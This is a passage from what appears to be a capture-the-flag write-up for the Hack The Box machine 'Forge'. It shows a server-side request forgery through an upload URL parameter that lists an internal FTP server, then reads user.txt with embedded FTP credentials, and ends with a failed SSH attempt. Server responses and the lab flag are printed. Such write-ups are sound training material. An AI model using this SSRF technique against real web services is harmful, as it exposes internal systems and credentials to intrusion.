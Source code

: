 You will receive an url where you can see the "uploaded image". This url will reveal the information we requested.

There you can see the content of the internal bound ftp server:

```bash
HTTP/1.1 200 OK
Date: Wed, 22 Sep 2021 10:17:13 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Disposition: inline; filename=22Yb2ccss7ZHqWsL5mT7
Content-Length: 126
Last-Modified: Wed, 22 Sep 2021 10:17:03 GMT
Cache-Control: no-cache
Connection: close
Content-Type: image/jpg

drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Sep 21 10:27 user.txt
```

## Fetching user.txt

This way we can also read the user.txt file directly requesting the url http://Admin.Forge.htb/upload?u=ftp://user:heightofsecurity123!@Admin.Forge.htb/user.txt.

```bash
HTTP/1.1 200 OK
Date: Wed, 22 Sep 2021 10:19:50 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Disposition: inline; filename=fwLAC8m8LiPBLyhZb0eU
Content-Length: 33
Last-Modified: Wed, 22 Sep 2021 10:19:44 GMT
Cache-Control: no-cache
Connection: close
Content-Type: image/jpg

812765a195ec9d2bb2f47128019b176a
```

## Gaining shell

So as we are a ftp user called *user* in a home directory we could also try ssh in with the creds:

```bash
> ssh user@forge.htb
The authenticity of host 'forge.htb (10.10.11.111)' can't be established.
ED25519 key fingerprint is SHA256:ezqn5XF0Y3fAiyCDw46VNabU1GKFK0kgYALpeaUmr+o.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'forge.htb' (ED25519) to the list of known hosts.
user@forge.htb: Permission denied (publickey).
```

But as we discover we would need to have a private key to ssh into the box.
